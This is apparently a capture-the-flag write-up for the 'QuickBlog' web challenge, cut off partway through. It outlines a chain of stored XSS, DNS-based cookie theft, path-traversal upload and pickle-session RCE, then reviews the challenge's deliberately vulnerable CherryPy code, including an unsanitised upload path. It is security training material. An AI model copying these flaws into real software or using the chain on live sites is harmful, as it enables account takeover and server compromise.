        <font size="10">QuickBlog</font>

27<sup>th</sup> December 2024 / D24.xx.xx

​Prepared By: DrBrad

​Challenge Author(s): DrBrad

​Difficulty: <font color=red>Hard</font>

​Classification: Official

# [Synopsis](#synopsis)

- Abuse stored XSS on a custom client-side markdown parser -> exfiltrate session cookie via DNS -> upload file to arbitrary path via path traversal -> trigger RCE on CherryPy session files via python pickle.

## Description

* I have made a new blog with a custom markdown parser, can you help me with the pentestng part?

## Skills Required

- Understanding of Javascript
- Understanding of Python
- Understanding of HTTP

## Skills Learned

- How to exploit markdown parsers to cause XSS
- How to abuse RTCPeerConnection in restricted environments to exfiltrate data via DNS
- Create a stable payload with javascript hex strings
- How to abuse a path traversal using python os module to get arbitrary file upload
- How to gain RCE on CherryPy via session deserialization

## Application Overview



Lets start examinig the blog.



We have a login page.



And we have a register page. After registering we are automatically logged in.


We can see a welcome post made by the admin and a "CREATE NEW POST" button.



At the new post page we can make a new post with title and message.



Now let's have a look at the requests being made.



We can see that the server is powered by `CherryPy/18.10.0`, a minimal web framework used for making python web apps.



At the bottom of the HTML we can see that two javascript files are loaded. One `app.js` and one `markdown2html.js`.



We can also see that two request are made `/get_post_content`, that return a base64 encoded string.



We see that the content decoded is the markdown posts, so we can assume that it is decoded, parsed and rendered all on the client-side.

## Code review

### Back-End

Let's have a look at the source code to better understand the app. We will start with the `Dockerfile`.

```Dockerfile
FROM python:3.11-alpine

# Install dependencies
RUN apk add --update --no-cache gcc build-base musl-dev supervisor chromium chromium-chromedriver

# Add chromium to PATH
ENV PATH="/usr/lib/chromium:${PATH}"

# Copy flag
COPY flag.txt /flag.txt

# Upgrade pip
RUN python -m pip install --upgrade pip

# Setup app
RUN mkdir -p /app

# Add application
WORKDIR /app
COPY challenge .

# Install dependencies
RUN pip install --no-cache-dir -r requirements.txt

# Setup supervisord
COPY conf/supervisord.conf /etc/supervisord.conf

# Setup readflag program
COPY conf/readflag.c /
RUN gcc -o /readflag /readflag.c && chmod 4755 /readflag && rm /readflag.c

# Expose port
EXPOSE 1337

# Prevent outbound traffic
ENV http_proxy="http://127.0.0.1:9999"
ENV https_proxy="http://127.0.0.1:9999"
ENV HTTP_PROXY="http://127.0.0.1:9999"
ENV HTTPS_PROXY="http://127.0.0.1:9999"
ENV no_proxy="127.0.0.1,localhost"

# Create entrypoint and start supervisord
COPY --chown=root entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```

The actions that concern us are:
 - Chromium is downloaded
 - The http proxy envs are set
 - The `readflag` program is compiled and placed to root directory

Setting of these vars will force chromium instances to use `http://127.0.0.1:9999` as a proxy, however since there is no such service running, any http traffic upstream of the container's network will be dropped.

Now lets look at `conf/supervisord.conf`.

```conf
[supervisord]
user=root
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid

[program:cherrypy]
command=python3 app.py
directory=/app
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

We can see only one service is started, it is the cherrypy one, from the `/app` directory.

Now moving to `entrypoint.sh`.

```sh
#!/bin/sh

# Random password function
function genPass() {
    echo -n $RANDOM | md5sum | head -c 32
}

# Set environment variables
export ADMIN_PASSWORD=$(genPass)

# Change flag name
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt

# Secure entrypoint
chmod 600 /entrypoint.sh

# Launch supervisord
/usr/bin/supervisord -c /etc/supervisord.conf
```

A `genPass` function is defined that generates a random hex string using `md5sum` and the `$RANDOM` variable. The the `ADMIN_PASSWORD` environment variable is set, after that the flag file at `/flag.txt` is renamed to a random filename (so to get the flag `/readflag` must be executed), the the entrypoint script is secured with `chmod 600` and `supervisor` is started.

```c
#include<unistd.h>
#include<stdlib.h>

int main()
{
    setuid(0);
    system("cat /flag*");
}
```

At `conf/readflag.c` we can see the readflag program, that simply outputs all files starting with `flag` in the root directory, so running this would give us the randomized flag. With this we can deduct that this challenge requires RCE in order to get the flag.

Let's have a look at the actual source files of the web application. Beginning from `challenge/app.py`. This is a big file so we will split it in parts.

```py
import os, re, base64, json, cherrypy
from datetime import datetime
from apscheduler.schedulers.background import BackgroundScheduler
from util.bot import bot_thread
```

At the very start we have some dependencies imported, the important ones we will focus on later are `cherrypy`, the function `BackgroundScheduler` from `apscheduler.schedulers.background`, and the function `bot_thread` from `util.bot`.

```py
users = {
	'admin_user': os.getenv('ADMIN_PASSWORD'),
}
admin_users = {'admin_user'}
welcome_post = """
# Welcome to Our Blog! 🌟

Hi there! We're excited to have you here. This is where we share insights, tips, and stories.

## What You'll Find
- Helpful Guides
- Inspiring Stories  
- Community Highlights  

## Stay Connected
Subscribe to our newsletter and follow us on social media. Let's grow together!

Thanks for visiting,  
*DrBrad*
"""
posts = [
	{
		'id': 1,
		'title': 'welcome_post',
		'content': base64.b64encode(welcome_post.encode()).decode('utf-8'),
		'author': 'admin_user',
		'timestamp': datetime.now().strftime('%Y-%m-%d %H:%M')
	},
]
post_counter = 1

uploads_dir = os.path.join(os.getcwd(), 'uploads')
os.makedirs(uploads_dir, exist_ok=True)

sessions_folder = os.path.join(os.getcwd(), 'sessions')
os.makedirs(sessions_folder, exist_ok=True)
```

Next up we have some variables that are defined and are used globally in the whole one-file application. We have a dict `users` with all the users and their passwords, in our instance only `admin_user` exists with the random password fetched from the environment variables, and the `admin_users` dict is defined which holds the usernames of all users which hold admin privileges.

Then `welcome_post`, contains the markdown contents of the first post which is then encoded in base64 and inserted into the `posts` variable which is a list that contains all posts, with some other metadata about the post like `title`, `author` etc. Also `posts_counter` is defined which keeps track of how many posts are created in total.

The two checks are made for the existance of the `uploads` and `sessions` directories, if they do not exist they are created in the applications directory.

```py
def validate_input(input_str):
	if re.match(r'^[a-z_]+$', input_str):
		return True
	return False

def is_admin(username):
	return username in admin_users
```

Moving on we have the `validate_input` and `is_admin` functions, the `validate_input` takes a string and determines if it's characters are within the lowercase alphabet range or an underscore, if not `False` is returned, then we have the `is_admin` functions which checks if the provided username exists in the previously mentioned `admin_users` dict.

```py
class BlogAPI:
@cherrypy.expose
def index(self):
    username = cherrypy.session.get('username')
    if not username:
        raise cherrypy.HTTPRedirect('/login')
    
    posts_html = []
    for post in sorted(posts, key=lambda x: x['timestamp'], reverse=True):
        posts_html.append(f'''
            <article class="post-item" data-post-id="{post['id']}">
                <h2 class="post-title">{post['title']}</h2>
                <div class="post-meta">By <span class="post-author">{post['author']}</span> on <span class="post-timestamp">{post['timestamp']}</span></div>
                <preview>
                    <div class="markdown-content">Loading...</div>
                </preview>
            </article>
        ''')

    admin_link = '<a href="/admin" class="button">Admin Page</a>' if is_admin(username) else ''

    return self.render_template(f'''
        <div class="header">
            <h1>Welcome, {username}</h1>
            <nav>
                <a href="/new_post" class="button">Create New Post</a>
                {admin_link}
                <a href="/logout" class="button">Logout</a>
            </nav>
        </div>
        <div class="posts">
            {''.join(posts_html) if posts_html else '<p>No posts yet!</p>'}
        </div>
    ''')
```

Moving on we have the definition of the `BlogAPI` class which is used by `cherrypy` to define the functionality of the web app. The `index` function is defined within the class with the `@cherrypy.expose` decorator which tells `cherrypy` to use the function as a request handler/endpoint.

First a check is made to see if there is an available `username` in the current session, if not a redirection is made to `/login`. Then the program loops through the posts and creates an HTML template for each one, If the current user is an admin one an admin link is also added to the html string which is passed through the `render_template` function of which the output is returned to the response.

```py
@cherrypy.expose
def admin(self):
    username = cherrypy.session.get('username')
    if not username or not is_admin(username):
        raise cherrypy.HTTPRedirect('/login')

    return self.render_template(f'''
        <div class="admin-page">
        <div class="header">
            <h1 class="admin-title">Admin Page</h1>
            <a href="/" class="button button-back">Back to Home</a>
        </div>
        <div class="content admin-content">
            <p>Welcome to the admin page, {username}.</p>
            <p>Here you can manage the blog.</p>
            <a href="/uploads" class="button button-uploads">View Uploads Directory</a>
            <form method="post" action="/upload_file" enctype="multipart/form-data" class="form form-upload">
                <label for="file" class="form-label">Upload File:</label>
                <input type="file" name="file" class="upload-input" required />
                <button type="submit" class="button button-upload">Upload</button>
            </form>
        </div>
    </div>
    ''')
```

Then we have the `/admin` endpoint, first a check is made to see if the current user session exists and if its an admin one, if so the HTML template for the admin page is rendered.

```py
@cherrypy.expose
def uploads(self):
    username = cherrypy.session.get('username')
    if not username or not is_admin(username):
        raise cherrypy.HTTPRedirect('/login')

    files = os.listdir(uploads_dir)
    files_html = ''.join(f'<li><a class="link futuristic-link" href="/uploads/{file}">{file}</a></li>' for file in files)

    return self.render_template(f'''
        <div class="header">
            <h1>Uploads Directory</h1>
            <a href="/admin" class="button">Back to Admin</a>
        </div>
        <ul>
            {files_html}
        </ul>
    ''')
```

Then we have the `/uploads` which also requires admin authentication. It simply lists the files stored at the `uploads` directory and renders them in an HTML template.

```py
@cherrypy.expose
def upload_file(self, file):
    username = cherrypy.session.get('username')
    if not username or not is_admin(username):
        raise cherrypy.HTTPRedirect('/login')
    
    remote_addr = cherrypy.request.remote.ip
    if remote_addr in ['127.0.0.1', '::1']:
        return self.render_template('''
            <div class="error">
                File uploads from localhost are not allowed.
                <br><a class="link futuristic-link" href="/admin">Back to Admin</a>
            </div>
        ''')

    upload_path = os.path.join(uploads_dir, file.filename)
    with open(upload_path, 'wb') as f:
        while chunk := file.file.read(8192):
            f.write(chunk)

    raise cherrypy.HTTPRedirect('/admin')
```

After that there is the `/upload_file` endpoint which is also admin authenticated, it also makes a check that only allows requests from the local network, after that it simply saves the data contained in the `file` field of the request to the path defined by the `filename` path of the request and then it redirects back to the `/admin` endpoint.


```py
@cherrypy.expose
@cherrypy.tools.json_out()
def get_post_content(self, post_id):
    post_id = int(post_id)
    post = next((p for p in posts if p['id'] == post_id), None)
    if post:
        try:
            return {'content': post['content']}
        except:
            return {'error': 'Could not decode content'}
    return {'error': 'Post not found'}
```

The `/get_post_content` endpoint is defined and it uses the `@cherrypy.tools.json_out()` decorator to output results in JSON format. It's utility is to return the base64 encoded contents of a post by it's `id` that's is expected as a parameter.

```py
@cherrypy.expose
def login(self, username=None, password=None):
    if username is None or password is None:
        return self.render_template('''
            <div class="auth-form">
                <h1 class="auth-title">Login</h1>
                <form method="post" action="/login" class="form form-login">
                    <div class="form-group">
                        <label for="username" class="form-label">Username:</label>
                        <input type="text" name="username" id="username" class="form-input" required />
                    </div>
                    <div class="form-group">
                        <label for="password" class="form-label">Password:</label>
                        <input type="password" name="password" id="password" class="form-input" required />
                    </div>
                    <button type="submit" class="button button-login" id="loginButton">Login</button>
                </form>
                <p class="auth-link">Don't have an account? <a href="/register" class="link futuristic-link">Register</a></p>
            </div>
        ''')
    
    if validate_input(username) and username in users and users[username] == password:
        cherrypy.session['username'] = username
        raise cherrypy.HTTPRedirect('/')
    raise cherrypy.HTTPRedirect('/login')
```

On the `/login` endpoint, if no parameters are provided then the login page HTML is rendered, if a `username` and `password` is provided then first the `username` is checked against the `validate_input` function, and if the `password` matches with the one corresponding to a saved user then a session is set for the current user and the username is saved, otherwise we are just redirected to `/login`.

```py
@cherrypy.expose
def register(self, username=None, password=None):
    if username is None or password is None:
        return self.render_template('''
            <h1>Register</h1>
            <form method="post" action="/register">
                <div class="form-group">
                    <label>Username:</label>
                    <input type="text" name="username" class="form-input" required />
                </div>
                <div class="form-group">
                    <label>Password:</label>
                    <input type="password" name="password" class="form-input" required />
                </div>
                <button type="submit" class="button button-login">Register</button>
            </form>
            <p>Already have an account? <a class="link futuristic-link" href="/login">Login</a></p>
        ''')
    
    if validate_input(username) and username not in users:
        users[username] = password
        cherrypy.session['username'] = username
        raise cherrypy.HTTPRedirect('/')
    raise cherrypy.HTTPRedirect('/register')
```

Similarly on the `/register` endpoint a `username` and `password` is expected to add a user to the `users` dict, if not provided the register page is rendered.

```py
@cherrypy.expose
def logout(self):
    cherrypy.session.pop('username', None)
    raise cherrypy.HTTPRedirect('/login')
```

The `/logout` endpoint simply erases the cuurent user's session.

```py
@cherrypy.expose
def new_post(self, title=None, content=None):
    username = cherrypy.session.get('username')
    if not username:
        raise cherrypy.HTTPRedirect('/login')

    if title is None or content is None:
        return self.render_template('''
            <div class="header">
                <h1>Create New Post</h1>
                <a href="/" class="button">Back to Posts</a>
            </div>
            <form method="post" action="/new_post" class="post-form">
                <div class="form-group">
                    <label>Title:</label>
                    <input type="text" name="title" required />
                </div>
                <div class="form-group">
                    <label>Content (Automatically base64 encoded):</label>
                    <textarea name="content" required rows="10"></textarea>
                </div>
                <button type="submit" class="button button-login">Create Post</button>
            </form>
            <script>
                document.querySelector('form').addEventListener('submit', function(e) {
                    e.preventDefault();
                    const contentArea = document.querySelector('textarea[name="content"]');
                    const rawContent = contentArea.value;
                    contentArea.value = btoa(rawContent);
                    this.submit();
                });
            </script>
        ''')
    else:
        if not validate_input(title):
            return self.render_template('''
                <div class="error">
                    Invalid title. Titles can only contain lowercase letters, numbers, and underscores.
                    <br><a class="link futuristic-link" href="/new_post">Try again</a>
                </div>
            ''')

        if is_admin(username):
            return self.render_template('''
                <div class="error">
                    Admin posting is disabled
                    <br><a class="link futuristic-link" href="/">Home</a>
                </div>
            ''')

        global post_counter
        post_counter += 1
        posts.append({
            'id': post_counter,
            'title': title,
            'content': content,
            'author': username,
            'timestamp': datetime.now().strftime('%Y-%m-%d %H:%M')
        })
        raise cherrypy.HTTPRedirect('/')
```

The `/new_post` endpoint is used for creating posts, if no related params are provided the crete post page is rendered, if they are the `title` is checked using `validate_input` and then admin permission is checked with `is_admin`, after that the post is added and we are directed to `/`.

```py
def render_template(self, content):
    return f'''
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>QuickBlog</title>
            <link rel="stylesheet" href="/static/css/style.css">
            <link rel="stylesheet" href="/static/css/crt.css">
            <link rel="stylesheet" href="/static/css/markdown.css">
            <link rel="icon" href="/static/img/icon.png" type="image/png" />
        </head>
        <body class="crt">
            <header class="app-header">
                <div class="container">
                    <h1 class="app-title">QuickBlog</h1>
                </div>
            </header>
            <main class="main-content container">
                {content}
            </main>
            <footer class="app-footer">
                <div class="container">
                    <p>&copy; {datetime.now().year} QuickBlog. All rights reserved.</p>
                </div>
            </footer>
            <script src="/static/js/markdown2html.js"></script>
            <script src="/static/js/app.js"></script>
        </body>
        </html>
    '''
```

Last but not least we have the `render_template` function that we saw used so much, it simply inserts the user defined `content` string to a page template and returns that as a string.

```py
if __name__ == '__main__':
	static_dir = os.path.join(os.getcwd(), 'static')

	config = {
		'/': {
			'tools.sessions.on': True,
			'tools.sessions.storage_type': 'file',
			'tools.sessions.storage_path': sessions_folder,
			'tools.response_headers.on': True,
			'tools.response_headers.headers': [
				('Content-Security-Policy', "default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval'; style-src 'self'; img-src 'self'; connect-src 'self';")
			],
		},
		'/static': {
			'tools.staticdir.on': True,
			'tools.staticdir.dir': static_dir,
		},
		'/uploads': {
			'tools.staticdir.on': True,
			'tools.staticdir.dir': uploads_dir,
		}
	}
```

Now leaving the `BlogAPI` class and moving onto the `main` function we see that the `static` directory is set onto a variable and then the `config` dict is set which contains settings to be used by `cherrypy`.

First the settings for `/` are defined which enable sessions, set session type to `file`, set the session storage directory and then some additional CSP headers are enabled and set.

Then for the `/static` and `/uploads` endpoints directory listing is enabled for their corresponding filesystem directories.

```py
cherrypy.config.update({'server.socket_host': '0.0.0.0'})
cherrypy.config.update({'server.socket_port': 1337})

scheduler = BackgroundScheduler()
scheduler.add_job(bot_thread, 'interval', minutes=1, id='bot_thread_job', replace_existing=True)
scheduler.start()

cherrypy.quickstart(BlogAPI(), '/', config)
```

At the end server ip and port are set, a function call to the `bot_thread` function us scheduled for every one minute using `BackgroundScheduler`, and the server is started with the `BlogAPI` class used as the application's handler.

Now let's see the `bot_thread` function that is imported from `challenge/util/bot.py`.

```py
import os, time, random, threading

from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.chrome.options import Options

def bot_runner():
	chrome_options = Options()

	chrome_options.add_argument("headless")
	chrome_options.add_argument("no-sandbox")
	chrome_options.add_argument("ignore-certificate-errors")
	chrome_options.add_argument("disable-dev-shm-usage")
	chrome_options.add_argument("disable-infobars")
	chrome_options.add_argument("disable-background-networking")
	chrome_options.add_argument("disable-default-apps")
	chrome_options.add_argument("disable-extensions")
	chrome_options.add_argument("disable-gpu")
	chrome_options.add_argument("disable-sync")
	chrome_options.add_argument("disable-translate")
	chrome_options.add_argument("hide-scrollbars")
	chrome_options.add_argument("metrics-recording-only")
	chrome_options.add_argument("no-first-run")
	chrome_options.add_argument("safebrowsing-disable-auto-update")
	chrome_options.add_argument("media-cache-size=1")
	chrome_options.add_argument("disk-cache-size=1")

	client = webdriver.Chrome(options=chrome_options)

	client.get("http://127.0.0.1:1337/login")

	time.sleep(3)
	client.find_element(By.ID, "username").send_keys("admin_user")
	client.find_element(By.ID, "password").send_keys(os.getenv("ADMIN_PASSWORD"))
	client.execute_script("document.getElementById('loginButton').click()")
	time.sleep(3)

	time.sleep(10)

	client.quit()

def bot_thread():
	thread = threading.Thread(target=bot_runner)
	thread.start()
	return thread
```

We see that `selenium` is imported alonside some other complementary dependencies, The `bot_runner` function configures Chrome browser options for lightweight, headless operation, disabling unnecessary features like GPU usage, extensions, and background networking. After setting up the options, a Selenium WebDriver instance is created to control a Chrome browser. The bot navigates to the login page at `http://127.0.0.1:1337/login`. It then fills in the `username` field with `admin_user` and retrieves the password from an environment variable named `ADMIN_PASSWORD`. The login button is triggered using JavaScript execution, simulating an admin loggin-in. The `bot_thread` function encapsulates `bot_runner` in a thread, allowing it to run asynchronously.

 ### Front-End

 Now let's have a closer look at the javascript front-end files, starting from `app.js`.

 ```js
 window.onload = () => {
    const posts = document.querySelectorAll('.post-item');
    
    posts.forEach(post => {
        const postId = post.getAttribute('data-post-id');
        const contentDiv = post.querySelector('.markdown-content');
        
        fetch(`/get_post_content?post_id=${postId}`)
            .then(response => response.json())
            .then(data => {
                if (data.error) {
                    contentDiv.textContent = `Error: ${data.error}`;
                } else {
                    contentDiv.textContent = atob(data.content);
                    contentDiv.innerHTML = markdownToHtml(contentDiv.textContent);
                }
            })
            .catch(error => {
                contentDiv.textContent = `Error loading content: ${error}`;
            });
    });
};
```

After the page is loaded all elements in the post page with the `.post-item` class are used to extract post id's which are then used to fetch the base64 encoded post markdown content from `/get_post_content`. Then data for each post us decoded using `atob` and parsed to HTML using `markdownToHtml` which is located at the `markdown2html.js` file.

This JavaScript function `markdownToHtml` converts Markdown text into HTML. It handles various Markdown features such as links, images, bold, italics, headers, lists, blockquotes, tables, and code blocks. Below is an explanation of key parts of the code with examples.

```js
if (markdown.includes('<')) {
    let cursor = 0;

    while (markdown.includes('<', cursor)) {
        const start = markdown.indexOf('<', cursor);
